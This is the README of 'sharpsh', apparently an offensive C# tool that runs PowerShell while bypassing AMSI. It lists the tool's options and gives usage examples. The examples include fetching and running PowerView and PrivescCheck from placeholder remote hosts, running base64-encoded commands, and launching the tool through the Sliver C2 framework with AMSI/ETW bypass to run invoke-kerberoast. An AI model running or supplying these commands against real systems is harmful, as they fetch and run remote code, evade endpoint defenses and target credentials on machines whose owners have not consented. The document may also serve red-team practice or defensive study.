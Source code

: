 # sharpsh
C# .Net Framework program that uses `RunspaceFactory` for Powershell command execution.

## Features
- Execute Powershell commands
- Load & execute remote script
- AMSI Bypass
- Multiple command & script support
- Encoded command support
- Load & execute script from clipboard

## Usage

```
sharpsh 1.0.0.0
Copyright c  2022

  -c, --cmd            Required. Powershell command to run

  -u, --uri            Fetch script from URI

  -p, --clipboard      Fetch script from clipboard

  -b, --bypass-amsi    Bypass AMSI

  -e, --encoded        Encodeded command (base64)

  --help               Display this help screen.

  --version            Display version information.
```

## Examples

```
# execute powershell command
PS > .\sharpsh.exe -c whoami

# execute base64 encoded powershell command
PS > .\sharpsh.exe -e -c d2hvYW1pCg==

# load script from clipboard and execute command
PS > .\sharpsh.exe -p -c Get-NetLocalGroup

# load remote script and execute
PS > .\sharpsh.exe -u http://x.x.x.x/PowerView.ps1 -c get-netlocalgroup

# load remote script and execute encoded command
PS > .\sharpsh.exe -u http://x.x.x.x/PowerView.ps1 -e -c R2V0LU5ldExvY2FsR3JvdXAK

# execute multiple powershell commands
PS > .\sharpsh.exe -c hostname,whoami

# execute multiple powershell commands using multiple scripts
PS > .\sharpsh.exe -c get-netlocalgroup,invoke-privesccheck -u http://x.x.x.x/PowerView.ps1,http://x.x.x.x/PrivescCheck.ps1 -b

# sliver inline & bypass AMSI + ETW
sliver > execute-assembly -M -E -i /tools/sharpsh.exe -c get-netlocalgroup -u http://x.x.x.x/psh/PowerSploit/Recon/PowerView.ps1

# sliver BOF & bypass AMSI
sliver > inline-execute-assembly /tools/sharpsh.exe '-b -c invoke-kerberoast -u http://x.x.x.x/PowerView.ps1'
```

## Planned
- Load & execute embedded script
- Load & execute script from disk
- Compression & encryption support for scripts


## Build
Built using .NET Framework v4.5.1 in Visual Studio 2019.

Be sure to add `c:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll` as a reference.

The project uses [`dnMerge`](https://github.com/CCob/dnMerge) so it has to be compiled in `Release` mode.